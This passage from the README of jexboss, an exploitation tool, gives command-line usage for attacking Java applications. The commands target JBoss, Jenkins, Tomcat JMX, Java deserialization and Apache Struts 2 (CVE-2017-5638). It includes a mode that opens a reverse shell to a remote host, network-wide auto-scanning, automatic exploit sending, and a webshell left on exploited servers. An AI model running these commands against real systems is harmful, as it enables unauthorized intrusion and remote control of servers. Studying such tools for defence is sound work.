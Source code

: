 * For Java Deserialization Vulnerabilities in a custom HTTP parameter and to make a reverse shell (this will ask for an IP address and port of your remote host):

```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name
```

* For Java Deserialization Vulnerabilities in a Servlet (like Invoker):

```
$ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize
```

* For Apache Struts 2 (CVE-2017-5638)

```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
```

* For Apache Struts 2 (CVE-2017-5638) with cookies for authenticated resources

```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2 --cookies "JSESSIONID=24517D9075136F202DCE20E9C89D424D"
```

* Auto scan mode:

```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log
```

* File scan mode:

```
$ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log
```

* More Options:

```
optional arguments:
  -h, --help            show this help message and exit
  --version             show program's version number and exit
  --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                        PERMISSION!!!)
  --disable-check-updates, -D
                        Disable two updates checks: 1) Check for updates
                        performed by the webshell in exploited server at
                        http://webshell.jexboss.net/jsp_version.txt and 2)
                        check for updates performed by the jexboss client at
                        http://joaomatosf.com/rnp/releases.txt
  -mode {standalone,auto-scan,file-scan}
                        Operation mode (DEFAULT: standalone)
  --app-unserialize, -j
                        Check for java unserialization vulnerabilities in HTTP
                        parameters (eg. javax.faces.ViewState, oldFormData,
                        etc)
  --servlet-unserialize, -l
                        Check for java unserialization vulnerabilities in
                        Servlets (like Invoker interfaces)
  --jboss               Check only for JBOSS vectors.
  --jenkins             Check only for Jenkins CLI vector.
  --jmxtomcat           Check JMX JmxRemoteLifecycleListener in Tomcat
                        (CVE-2016-8735 and CVE-2016-8735). OBS: Will not be
                        checked by default.
  --proxy PROXY, -P PROXY
                        Use a http proxy to connect to the target URL (eg. -P
                        http://192.168.0.1:3128)
  --proxy-cred LOGIN:PASS, -L LOGIN:PASS
                        Proxy authentication credentials (eg -L name:password)
```